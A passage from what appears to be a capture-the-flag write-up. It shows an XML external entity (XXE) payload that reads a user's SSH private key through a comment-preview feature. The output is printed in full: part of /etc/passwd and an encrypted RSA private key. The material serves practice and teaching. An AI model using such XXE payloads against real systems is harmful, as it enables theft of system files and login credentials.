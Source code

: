 ```html
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash</p><p>Author : Barry Clad</p><p>Comment :<br> random<p/>    </section>
```
- We know that there is `id_rsa` file for user barry tried readig id_rsa file.
```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>random</com>
</comment>
<!------------------------------------------------>
<h3>Comment Preview:</h3><p>Name: 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
</p><p>Author : Barry Clad</p><p>
Comment :<br> random<p/>    
```
